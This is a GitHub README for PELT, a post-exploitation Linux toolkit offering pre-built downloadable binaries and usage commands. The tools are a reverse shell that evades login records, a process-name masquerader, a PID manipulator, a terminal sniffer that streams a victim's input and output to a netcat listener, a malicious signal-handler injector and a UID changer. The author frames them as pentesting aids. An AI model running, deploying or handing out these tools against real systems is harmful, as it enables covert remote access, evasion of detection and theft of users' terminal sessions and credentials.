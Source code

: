 # PELT #

***
**What is PELT?**

_PELT_ is the Post Exploitation Linux Toolkit. It is intended as a collection of Linux user space tools designed to assist pentesters during the post-exploitation phases of their engagement. The tools appear here as pre-built binaries for easy access in the field.

These tools are each projects of mine with their own Github pages. Please refer to these project pages for full descriptions as well as source code.

***
### _revsh_ ###

_revsh_ is a reverse shell. It was designed to meet the needs of pentesters facing long engagements. The features include:

 * Full terminal support.
 * Unicode support.
 * Circumvention of the login record. (utmp / wtmp)
 * rc file support for launching recurring / cutomized commands upon login.
 * OpenSSL encryption with key based authentication baked into the binary.
 * Anonymous Diffie-Hellman encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default.
 * Cert pinning for protection against sinkholes and mitm counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.

Project page: [https://github.com/emptymonkey/revsh](https://github.com/emptymonkey/revsh)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-x86_64-Linux), [i686-Linux](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-i686-Linux), [amd64-FreeBSD](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-amd64-FreeBSD)

Tarball of the keys / certs used with these binaries: [keys.tar](https://github.com/emptymonkey/PELT/raw/master/revsh/keys.tar) 

Example:

	empty@monkey:~$ ./revsh -c 

	user@target:~$ ./revsh

Note: The pre-built binaries here use the default keys provided. If you are using this anywhere sensitive, you are strongly encouraged to download the source and build your own copy. This will generate unique keys / certs. As always, your mission is only as secure as your key management process.


***
### _mimic_ ###

_mimic_ is a tool that allows a user to run a program, but have it show up in the process table as something different. The name in the process listing can be any string. _mimic_ does **not** require root privileges.

Project page:	[https://github.com/emptymonkey/mimic](https://github.com/emptymonkey/mimic)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/mimic)

Example:

	empty@monkey:~$ ./mimic -e "/bin/bash" -m "/sbin/getty 38400 tty0"

***
### _set_target_pid_ ###

_set_target_pid_ is a simple program that resets the Process ID (PID) numbers being issued by the system as close as possible to a target. This program is part of the _mimic_ project. This program does **not** require root privileges.

Project page:	[https://github.com/emptymonkey/mimic](https://github.com/emptymonkey/mimic)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/set_target_pid)

Example:

	empty@monkey:~$ ./set_target_pid 1

Note: The target PID is only a target. _set_target_pid_ will try to get as close as possible, but that PID may simply not be available. The PIDs smaller than 300 appear to be reserved for kernel threads. If you request a PID of '1', then look for the result around '300'. Finally, after you set the PIDs being issued to your target and you have launched your payload, don't forget to reset the PIDs again to where they were before.

***
### _shelljack_ ###

_shelljack_ is terminal sniffer. (This is similar to a keystroke logger, but it gathers all input **and** output.) _shelljack_ does **not** require root privileges (except on Ubuntu systems).

Project page:	[https://github.com/emptymonkey/shelljack](https://github.com/emptymonkey/shelljack)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/shelljack)

Example:

	empty@monkey:~$ ncat -l 192.168.1.42 9999

	user@target:~$ ./shelljack 192.168.1.42:9999 $$

Note: _shelljack_ uses ptrace() to attach to processes. Because Ubuntu is patched specifically against this type of attack, _shelljack_ won't work on Ubuntu systems unless it is run as root. 

***
### _sigsleeper_ ###

_sigsleeper_ injects malicious code into a process that can be triggered by sending that process a signal. This type of attack is best describes as a "malicious signal handler injection with ptrace" attack. Because the injected code will sit quietly until it receives it's signal, at which point it will then launch its payload, I refer to this as "sleeper code". _sigsleeper_ does **not** require root privileges (except on Ubuntu systems).

Project page: [https://github.com/emptymonkey/sigsleeper](https://github.com/emptymonkey/sigsleeper)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/sigsleeper)

Example:

	empty@monkey:~$ sigsleeper -f -e '/bin/echo Hello world!' $$
	empty@monkey:~$ kill -USR1 $$
	empty@monkey:~$ Hello world!

Note: _sigsleeper_ uses ptrace() to attach to processes. Because Ubuntu is patched specifically against this type of attack, _sigsleeper_ won't work on Ubuntu systems unless it is run as root.

***
### _pretend_ ###

_pretend_ is a very simple program that changes your UID / GIDs. _pretend_ **does** require root privileges. This program is useful for programmatically changing your UID on the fly without requiring that the UID maps to a valid account on the host. There are a class of attacks for which this tool is very nice to have available.

Project page: [https://github.com/emptymonkey/pretend](https://github.com/emptymonkey/pretend)

Pre-built binaries: [x86_64](https://github.com/emptymonkey/PELT/raw/master/pretend)

Example: 

	empty@monkey:~$ sudo pretend 5:26:103:110:50 id
	uid=5(games) gid=26(tape) groups=60(games),50(staff),103(ssh),110(kvm)


***
### A Quick Note on Ethics ###

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

